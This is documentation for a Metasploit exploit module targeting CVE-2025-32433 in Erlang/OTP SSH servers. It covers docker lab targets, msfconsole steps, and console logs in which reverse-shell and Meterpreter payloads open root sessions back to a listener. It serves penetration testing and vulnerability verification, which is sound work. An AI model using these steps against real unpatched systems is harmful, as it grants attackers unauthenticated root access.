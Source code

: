 ## Vulnerable Application

Erlang/OTP is a set of libraries for the Erlang programming language.

Prior to versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20, a SSH server may allow an attacker
to perform unauthenticated remote code execution (RCE).

By exploiting a flaw in SSH protocol message handling, a malicious actor could gain unauthorized access
to affected systems and execute arbitrary commands without valid credentials. This issue is patched in
versions OTP-27.3.3, OTP-26.2.5.11, and OTP-25.3.2.20.

### Introduction

This module detect and exploits CVE-2025-32433, a pre-authentication vulnerability in Erlang-based SSH
servers that allows remote command execution. By sending crafted SSH packets, it executes a payload to
establish a reverse shell on the target system.

The exploit leverages a flaw in the SSH protocol handling to execute commands via the Erlang `os:cmd`
function without requiring authentication.

## Testing

### Vulnerable application

Execute the following commands:

```bash
git clone https://github.com/ProDefense/CVE-2025-32433
cd CVE-2025-32433
docker build -t cve-ssh:latest .
docker run -d -p 2222:2222 cve-ssh:latest
```

### Patched application

Execute the following commands:

```bash
git clone https://github.com/exa-offsec/ssh_erlangotp_rce
cd ssh_erlangotp_rce/patched
docker build -t patched-ssh:latest .
docker run -d -p 2223:2223 patched-ssh:latest
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/ssh/ssh_erlangotp_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options

**CHECK_ONLY**

Only check for vulnerability without exploiting. Default: `false`

## Scenarios

### Using linux commands (Target 0)

Use the linux commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CHECK_ONLY  false            no        Only check for vulnerability without exploiting
   RHOSTS      172.20.7.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       2222             yes       The target port (TCP)
   THREADS     1                yes       The number of concurrent threads (max one per host)

Payload options (cmd/linux/https/x64/meterpreter/reverse_tcp):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   FETCH_CHECK_CERT  false            yes       Check SSL certificate
   FETCH_COMMAND     CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE      false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS    false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                      no        Local IP to use for serving payload
   FETCH_SRVPORT     8080             yes       Local port to use for serving payload
   FETCH_URIPATH                      no        Local URI to use for serving payload
   LHOST             172.20.7.45      yes       The listen address (an interface may be specified)
   LPORT             4444             yes       The listen port

   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      fxCcJWmo         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces

Exploit target:

   Id  Name
   --  ----
   0   Linux Command

View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 172.20.7.45:4444 
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Starting exploit for CVE-2025-32433
[+] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Sending SSH_MSG_KEXINIT...
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Payload sent successfully
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.20.7.45:4444 -> 172.17.0.2:37326) at 2025-04-25 10:18:19 +0400

meterpreter > 
```

### Using unix commands (Target 1)

Use the unix commands CMD.

```
msf6 exploit(linux/ssh/ssh_erlangotp_rce) > options 

Module options (exploit/linux/ssh/ssh_erlangotp_rce):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   CHECK_ONLY  false            no        Only check for vulnerability without exploiting
   RHOSTS      172.20.7.45      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       2222             yes       The target port (TCP)
   THREADS     1                yes       The number of concurrent threads (max one per host)

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.20.7.45      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   Unix Command

View the full module info with the info, or info -d command.

msf6 exploit(linux/ssh/ssh_erlangotp_rce) > run
[*] Started reverse TCP handler on 172.20.7.45:4444 
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Starting exploit for CVE-2025-32433
[+] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Received banner: SSH-2.0-Erlang/5.1.4.7
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Sending SSH_MSG_KEXINIT...
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Sending SSH_MSG_CHANNEL_OPEN...
[*] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...
[+] 172.20.7.45:2222      - ssh://172.20.7.45:2222 - Payload sent successfully
[*] Command shell session 13 opened (172.20.7.45:4444 -> 172.17.0.2:44366) at 2025-04-25 10:21:05 +0400

whoami
root
```

## References

1. <https://x.com/Horizon3Attack/status/1912945580902334793>
2. <https://platformsecurity.com/blog/CVE-2025-32433-poc>
3. <https://github.com/ProDefense/CVE-2025-32433>
